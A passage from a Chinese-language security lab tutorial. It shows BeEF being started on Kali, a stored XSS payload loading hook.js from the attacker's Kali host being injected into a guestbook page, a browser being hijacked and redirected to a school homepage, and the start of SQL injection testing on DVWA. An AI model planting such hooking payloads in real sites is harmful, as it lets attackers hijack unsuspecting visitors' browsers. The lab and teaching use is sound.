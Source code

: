- 使用默认用户可能会导致你安装失败
输入`su`然后输入root密码，切换为root权限，然后再输入`./beef`
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117130624794.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
会提示你现在已经启动了，然后打开kali中自带的firefox浏览器。进入到：
`http://127.0.0.1:3000/ui/authentication`
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020111713111126.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
输入你刚才设置的账号和密码，就可以成功的登陆了。

访问一下hook.js里面有自带的恶意代码
![在这里插入图片描述](https://img-blog.csdnimg.cn/2020111713564093.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
只要访问到这个网站，对方的浏览器就会被劫持。

### 1x04 XSS注入漏洞
#### 2x01 XSS劫持网站
现在使用自己的本机访问留言簿的网站，并将XSS注入恶意代码。
XSS注入代码如下：
`<script src="http://Kali的IP地址:3000/hook.js"></script>`

![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117140452295.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
现在进入到这个当中我们可以发现已经成功了，而且看不到刚才写的代码，说明代码已经被成功的加载进去了！
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117140446773.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
刷新一下界面，可以发现会有一个弹框：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117140649183.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
然后再回到kali里面的beef管理界面看一下，可以发现10.34.80.1也就是我的本机已经被劫持了！
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117140922301.png#pic_center)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117141052958.png#pic_center)
可以使用他干一些奇怪的事情，还有查询一些信息
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117142326400.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
#### 2x02 劫持浏览器指定被劫持网站为学校主页
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117150244138.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
在命令中选择，Redirect Browser，填入学校地址，然后点击Execute。就可以发现网页被重定向了。

本次实验中的XSS攻击属于注入型XSS攻击。

## 0x02 SQL注入（DVWA+SQLMAP+Mysql）

### 1x01 实验环境搭建
打开Metasploitable2后，里面有搭建好的DVWA，访问`http://Metasploitable的IP/dvwa`即可
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117161430968.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
在low级别的SQL Injection中进行SQL注入的尝试：
输入1，可以正常显示：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117161631674.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3B5dGhvbl9MQ19ub2h0eXA=,size_16,color_FFFFFF,t_70#pic_center)
输入1' 报错
可以判断此处有报错：
![在这里插入图片描述](https://img-blog.csdnimg.cn/20201117161723620.png#pic_center)
下面使用sqlmap进行攻击
